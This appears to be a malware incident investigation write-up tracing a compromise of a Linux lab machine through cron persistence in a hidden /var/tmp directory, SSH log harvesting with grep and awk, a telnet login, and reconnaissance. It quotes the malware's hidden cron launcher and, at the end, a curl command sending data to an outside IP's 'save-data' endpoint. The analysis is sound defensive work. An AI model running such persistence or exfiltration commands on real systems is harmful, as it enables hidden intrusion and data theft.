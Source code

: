 ![image](https://github.com/user-attachments/assets/baf61e77-5739-4b7b-82fd-34bea2e45d0d)

The grep command is filtering content to search for occurrences of "OpenSSH." This suggests the attacker might be looking for logs or information related to OpenSSH, which could include SSH authentication attempts, possibly indicating an interest in exploiting SSH-related vulnerabilities. 

![image](https://github.com/user-attachments/assets/7390fd32-c24c-426b-8311-18a5c6839db3)

The awk command filters through a file named .temp to extract IP addresses related to password-based user authentication attempts. The pattern being matched, "userauth" and "password", suggests that this process is attempting to harvest IP addresses associated with SSH login attempts using password-based authentication, potentially identifying weak or compromised accounts.

![image](https://github.com/user-attachments/assets/1e9df02a-93b6-4f2d-b60b-37f134e88c30)

These commands are characteristic of post-compromise activity, where the attacker is leveraging the system to extract valuable information, likely to exploit SSH vulnerabilities or credential weaknesses further. The suspicious behavior of processing data in hidden directories like /var/tmp/.update-logs/ and using tools like awk, grep, and cat to sift through data files and logs points to a malicious intent.

At 0826 AM another ssshd pattern was observed followed by another /var/tmp/.update-logs/Update pattern at 0829 AM and a CRON command for /bin/sh -c "/var/tmp/.update-logs/./History >/dev/null 2>&1 & disown" at 0831 AM followed by another at 0833 AM ending in a ./cache command. Theses series of patterns occur once more before 0846 AM until a shutdown executed by root occured at 0904 AM March 14th 2025. The Device would be active again at March 17 2025 at 0320 AM, a CRON to update-logs, cache, and pidof update pattern was observed at 0321 AM indicating that the malware was still present during the authorized user's labs 

![image](https://github.com/user-attachments/assets/da0832d5-6da9-4a56-a967-b248a23ca3ad)

The Device carries on as usual with the malware, until a suspcious telnet login attempt was made at 0328 AM from IP 114.41.214.182 which turned out to be from taiwan, the process logs continued to show telnet processes which would be indicative of a continued presence from the previous telnet login followed by a series of what appear to be Reconnaissance Activity

![image](https://github.com/user-attachments/assets/9f3c14dd-4c35-420d-b47f-7688ac5dd5c9)
![image](https://github.com/user-attachments/assets/066b8a45-a88b-4c97-a69d-22a40081e0f6)

From that time until 0343 AM, the user applied updates to the linux machine however the malware was still present as observed at 0344 AM when a CRON to update-logs pattern occured. The device then proceeds as usual with the malware until new behavior from the malware was observed at 0448 AM, this behavior is consistent with data exfiltration when observing the code:


```bash -c 'curl --silent "http://196.251.73.38:47/save-data?IP=200.98.137.5" \
    -H "Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7" \
    -H "Accept-Language: en-US,en;q=0.9" \
    -H "Cache-Control: max-age=0" \
    -H "Connection: keep-alive" \
    -H "Upgrade-Insecure-Requests: 1" \
    --insecure'
```
